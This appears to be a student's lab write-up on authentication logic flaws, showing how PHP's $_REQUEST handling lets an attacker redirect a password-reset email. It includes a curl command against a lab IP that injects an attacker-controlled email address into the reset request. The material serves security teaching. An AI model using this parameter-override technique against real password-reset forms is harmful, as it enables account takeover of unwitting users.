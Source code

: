 ### LOGIC FLAW PRACTICAL 

What is a Logic Flaw?

Sometimes authentication processes contain logic flaws. A logic flaw is when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker. Logic flaws can exist in any area of a website, but we're going to concentrate on examples relating to authentication in this instance.

![logic_flaw](./media/5-logic-flaw.png)


**Logic Flaw Practical**

Try Reset Password function.
get the error message. 
Example: 
 `If an invalid email is entered, you'll receive the error message "Account not found from supplied email address"`

Now study the frameworks. on how they recieved the request data. 
Example: 
in the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`. 
The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

in simple words, `email` variable value  will be overriden if you pass another `email` variable 
Example:

```
 curl 'http://10.10.252.240/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

Now I'll create an email to spoof their customer service 
`{username}@customer.acmeitsupport.thm`
